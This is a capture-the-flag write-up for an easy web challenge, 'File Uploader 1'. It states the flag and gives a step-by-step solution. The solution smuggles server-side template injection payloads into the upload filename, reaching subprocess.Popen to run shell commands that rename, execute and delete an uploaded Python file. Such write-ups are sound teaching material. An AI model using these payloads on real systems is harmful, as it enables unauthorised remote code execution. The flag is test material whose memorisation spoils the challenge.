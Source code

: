 # File Uploader 1

**Author**: SmartOinker

**Category**: Web

Flag: `SEE{y0U_6yPa55Ed_FuNny_55t1_f1lTer5}`

## Description

A place where you can upload files? But there are so many strict filters!!! How can you possibly bypass them??

Note: On remote, files are cleaned up every minute.

## Difficulty

Easy

## Deployment

`docker-compose up`

## Solution
### Step 1:
Upload a file named `sol.png`, containing the following lines:
```
f = open("flag.txt", "r")
print(f.read())
```

### Step 2:
Submit an empty file named `.php` and edit post request to set `filename="{% print( 1.__class__.mro()[1].__subclasses__() )%}"`

### Step 3:
Copy the string in browser and run the following in python interactive console
```
a = """broswer string"""
b = a.split(", ")
b.index("<class 'subprocess.Popen'>")-->returns 394
```

### Step 4:
set `filename="{% print( 1.__class__.mro()[1].__subclasses__()[394]('mv static/<uid>.png static/a.py',shell=True,stdout=-1).communicate()[0].strip() )%}.php"` to rename your uploaded `sol.png`

then set `filename="{% print( 1.__class__.mro()[1].__subclasses__()[394]('python static/a.py',shell=True,stdout=-1).communicate()[0].strip() )%}.php"` to run the renamed python file

### Step 5:
set `filename="{% print( 1.__class__.mro()[1].__subclasses__()[394]('rm static/a.py',shell=True,stdout=-1).communicate()[0].strip() )%}.php"` to prevent your solution from being stolen
